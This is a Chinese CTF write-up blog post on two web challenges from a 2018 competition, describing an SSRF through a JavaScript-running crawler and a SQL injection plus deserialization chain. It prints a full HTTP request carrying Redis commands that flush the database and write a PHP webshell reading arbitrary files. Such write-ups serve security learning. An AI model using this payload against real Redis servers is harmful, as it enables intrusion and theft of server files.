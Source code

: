 ```yaml
---
title: 网鼎杯第一场 Web 总结
date: 2018-08-20 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道 Web 题目
---
```

一年没做 CTF 了，想来假期无聊去试试这个比赛。Web 题目因为各种原因下午才真正放出

### 【第一题 Spider】 

比赛的官方 wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32tCPWbDiFgAHiWgw>

在这题比赛过程遇到的问题：

- 应该先扫目录和文件，CTF 中 robots、flag.php、后台等这类尤其重要
- javascript 运用需要熟练。本题需要 HTTP 访问操作、端口扫描和结合 redis 的 getshell 操作
- 解决 Web 题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行 javascript）导致了一个 SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](https://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现 readyState 会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为 0，后来明白执行了跨域操作
编写 Javascript  执行 AJAX 请求和 JS 端口扫描 （参考官方 writeup）



接着根据提示 Redis getShell 和 8000 端口：因为不同端口，所以存在跨域，需要加上 Access-Control-Allow-Origin:* 头部。构造一个 Redis EXP。（参考官方 writeup）

Burp 截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入 webshell

### 【第二题 fakebook】

本题就是 SQL+反序列化+LFR，挺简单的

找到页面的注册点，使用 sqlmap 扫出问题然后查看目录的 robots.txt 文件发现有 user.php.bak，下载查看到 UserInfo 类的源码，最后反序列化读取 flag.php 得到 FLAG



